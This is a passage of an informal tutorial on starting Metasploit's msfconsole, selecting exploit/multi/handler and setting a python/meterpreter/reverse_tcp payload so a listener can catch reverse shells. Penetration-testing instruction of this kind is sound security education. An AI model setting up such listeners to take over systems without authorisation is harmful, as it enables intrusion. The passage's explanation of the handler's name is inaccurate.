<aside>
🔬 Metaploit installs on different locations.

</aside>

```bash
./msfconsole
```

![Start MSF Console](/assets/one-line/run_msf.gif)

Once we are in MSFCONSOLE. We want to use exploit/multi/hanlder

Based on the name, this lets us handle multiple exploited targets at once

```bash
use exploit/multi/handler
```

![Multiple Target Handler](/assets//one-line//multiple_targets.gif)

### Set payload to listen to

We need to make sure that the listener knows what signal it should be listening too. Kind of like after you make a starbucks order, you listen for your name

```bash
set PAYLOAD python/meterpreter/reverse_tcp
```
